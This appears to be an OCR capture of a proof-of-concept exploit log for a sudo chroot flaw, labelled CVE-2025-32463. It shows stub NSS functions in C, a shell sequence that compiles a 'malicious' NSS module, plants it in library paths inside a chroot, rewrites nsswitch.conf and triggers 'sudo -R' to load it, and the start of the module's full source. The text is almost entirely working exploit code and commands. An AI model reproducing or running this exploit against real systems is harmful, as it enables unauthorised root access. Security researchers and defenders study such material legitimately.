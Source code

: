 enum nss_status _nss_myhack_getgrnam_r(const char *name, struct group *grp,
    char *buffer, size_t buflen, int *errnop) {
    (void)name; (void)grp; (void)buffer; (void)buflen; (void)errnop;
    return NSS_STATUS_UNAVAIL;
}

enum nss_status _nss_myhack_getgrgid_r(gid_t gid, struct group *grp,
    char *buffer, size_t buflen, int *errnop) {
    (void)gid; (void)grp; (void)buffer; (void)buflen; (void)errnop;
    return NSS_STATUS_UNAVAIL;
}
EOF

# 4) Compile the malicious module
cc -fPIC -shared -o /tmp/libnss_myhack.so.2 /tmp/libnss_myhack.c

# 5) Install module into likely library search paths inside the chroot
for d in "$CH"/lib "$CH"/lib64 "$CH"/usr/lib "$CH"/lib/x86_64-linux-gnu; do cp /tmp/libnss_myhack.so.2 "$d"/; done

# 6) Trigger sudo with -R to pivot into chroot and perform NSS lookups
sudo -R "$CH" -u root /usr/bin/true || true
sudo -R "$CH" /usr/bin/id || true

# 7) Verify markers
ls -l "$CH"/tmp/nss_poc_constructor || true
ls -l /tmp/nss_poc_destructor || true
cat /tmp/nss_poc_destructor || true

# 8) Optional: tighten nsswitch to force earlier lookup and retry
printf "passwd: myhack\nshadow: myhack\ngroup: myhack\n" > "$CH"/etc/nsswitch.conf
sudo -R "$CH" /usr/bin/id || true
ls -l /tmp/nss_poc_destructor || true


sudo_cve_2025_32463_poc_source
[23:56:38]
Full C source for malicious NSS module used in PoC (libnss_myhack.c):

#include <stdio.h>
#include <stdlib.h>
#include <fcntl.h>
#include <unistd.h>
#include <string.h>
#include <sys/stat.h>
#include <pwd.h>
#include <grp.h>
#include <nss.h>
